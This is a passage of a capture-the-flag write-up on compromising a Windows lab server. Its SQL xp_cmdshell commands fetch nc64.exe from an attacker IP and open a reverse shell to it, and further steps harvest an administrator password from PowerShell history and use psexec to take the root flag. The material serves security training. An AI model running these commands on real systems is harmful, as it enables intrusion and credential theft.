 3. **Verify connectivity**:
   - You can test if your HTTP server is accessible by running:
     ```bash
     curl http://YOUR_VPN_IP:80
     ```
     from another terminal on your machine

When you replace "YOUR_IP_ADDRESS" in the commands, use this VPN IP address. For example:

```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.26/nc64.exe -outfile nc64.exe"
```

And for the reverse shell:

```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.26 443"
```
### Task 8: Capture the Root Flag

**Solution:**
```bash
# Check PowerShell history for credentials
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Use discovered Administrator credentials with Impacket's psexec.py
python3 psexec.py administrator@{TARGET_IP}

# Navigate to Administrator's desktop and read the root flag
cd C:\Users\Administrator\Desktop
type root.txt
```
The PowerShell history file reveals the Administrator password: MEGACORP_4dm1n!!

**Importance:** This demonstrates the importance of proper credential handling and the risks of leaving command history files accessible, as well as how to leverage discovered credentials for privilege escalation.

**Flag Captured:** Root Flag (actual value redacted)

## Summary

This CTF challenge provided hands-on experience with Windows server penetration testing. The most valuable lessons from this exercise include:

1. The importance of thorough enumeration of network services
2. How insecure file storage can lead to credential exposure
3. Leveraging database server misconfigurations for command execution
4. Using PowerShell history files for post-exploitation intelligence gathering
5. The critical nature of proper credential management

These skills are directly applicable to real-world scenarios such as internal network penetration tests and security assessments of Windows-based environments.
